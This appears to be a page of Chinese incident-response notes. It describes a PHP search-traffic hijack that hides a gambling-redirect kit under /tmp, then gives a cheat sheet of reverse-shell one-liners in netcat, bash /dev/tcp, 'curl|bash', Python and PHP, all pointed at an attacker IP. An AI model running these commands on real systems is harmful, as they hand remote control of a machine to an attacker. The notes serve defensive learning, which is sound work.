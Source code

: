 现象描述：

从搜索引擎来的流量自动跳转到指定的网页。

问题处理：

通过对index.php文件进行代码分析，发现该文件代码对来自搜狗和好搜的访问进行流量劫持。进一步跟着include函数包含的文件，index,php包含/tmp/.ICE-unix/ . . /c.jpg。

进入/tmp目录进行查看，发现该目录下，如c.jpg等文件，包含着一套博彩劫持的程序。



### 常见反弹shell

```
netcat:
netcat -lvvp 2333  # 攻击机
# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
netcat 47.xxx.xxx.72 2333 -e /bin/bash

bash:
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
或
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1   # 	0>&1:将标准输入与标准输出的内容相合，然后重定向给前面标准输出的内容。

curl配合bash反弹shell：
在攻击者的web命令下创建一个index文件
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
然后在目标机上执行以下命令即可反弹shell：
curl 47.xxx.xxx.72|bash

利用Telnet反弹shell
当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

Python 脚本反弹shell：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php 脚本反弹shell：
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'

msf生成反弹shell木马文件。
```

详情参考：https://xz.aliyun.com/t/9488#



## windows应急响应



### 被入侵之后的排查思路：
